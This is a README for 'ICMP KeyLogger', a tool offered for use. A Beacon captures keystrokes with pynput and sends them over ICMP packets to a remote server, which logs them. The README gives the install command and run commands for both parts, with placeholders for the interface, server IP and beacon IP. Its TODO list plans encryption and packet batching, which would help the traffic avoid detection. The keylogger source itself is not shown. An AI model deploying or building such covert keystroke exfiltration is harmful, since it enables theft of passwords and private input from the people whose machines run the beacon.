 
# ICMP KeyLogger

## Introduction
ICMP KeyLogger is a tool designed to capture and transmit keystrokes over the network using ICMP packets. It is divided into two main components: the Beacon, which captures keystrokes and sends them, and the Server, which receives and logs these keystrokes.

### TODO
- Implement encryption for keystroke data.
- Group packets to optimize network traffic instead of sending keystrokes instantly.

## Requirements
### Windows
- [npcap](https://nmap.org/npcap/)
- pynput
- scapy

### Linux
- pynput
- scapy

## Installation
Install Python dependencies using pip:
```pip install pynput scapy```

## Usage
### Identifying Network Interface on Windows
To find the full name of the network interface:

```ipconfig /all```

Use the Description field of the relevant interface.

### Running the Beacon
Run the Beacon component using the following command. Replace `[Description from ipconfig /all]` with the actual description of your network interface and `[keylogger server IP]` with the IP address of the server.
```py ICMPbeacon.py -i "[Description from ipconfig /all]" -d [keylogger server IP]```

### Running the Server
Run the Server component with the following command. Replace `[listening interface]` with the network interface the server should listen on and `[beacon IP]` with the IP address of the beacon.
```sudo python3 ICMPlogServ.py -i [listening interface] -d [beacon IP]```
